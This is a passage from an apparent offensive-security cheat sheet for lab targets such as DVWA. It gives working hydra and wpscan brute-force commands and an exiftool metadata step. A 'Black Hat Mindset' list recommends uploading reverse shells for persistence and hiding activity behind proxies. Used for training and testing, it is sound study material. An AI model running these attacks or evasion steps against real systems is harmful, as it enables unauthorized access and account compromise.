 ## Image Metadata Analysis

Extract metadata from images for sensitive information.

```bash
exiftool <image>
```

## Brute-Force Attacks

Guess credentials for web applications.

```bash
# Brute-force DVWA GET form
hydra -V -L usernames.txt -P passwords.txt 192.168.1.101 http-get-form '/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security;low;PHPSESSID=1ce2ba52deb9a642ed57a0d34d6c5dfe'

# Brute-force HTTPS POST form
hydra -l none -P rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+Inproc_login=true:Incorrect password" -t 64 -V

# Brute-force WordPress login
wpscan --url http://10.11.1.234/wp-login -v -P ~/<wordlist> -U elliot -t 50
```

## Black Hat Mindset

1. **Start Broad**: Use gobuster and nikto to map the web server and find entry points
2. **Exploit Weaknesses**: Target default credentials, SQL injection, or file inclusion for quick wins
3. **Upload Shells**: Leverage PUT methods or WebDAV to upload reverse shells for persistence
4. **Stay Undetected**: Use proxies (e.g., SOCKS5) and Burp Suite to mask your activity

## Resources

- [Gobuster GitHub](https://github.com/OJ/gobuster)
- [Nikto GitHub](https://github.com/sullo/nikto)
- [WPScan Documentation](https://wpscan.org/documentation)
- [sqlmap GitHub](https://github.com/sqlmapproject/sqlmap)
- [msfvenom Guide](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
- [Burp Suite Guide](https://portswigger.net/burp/documentation)

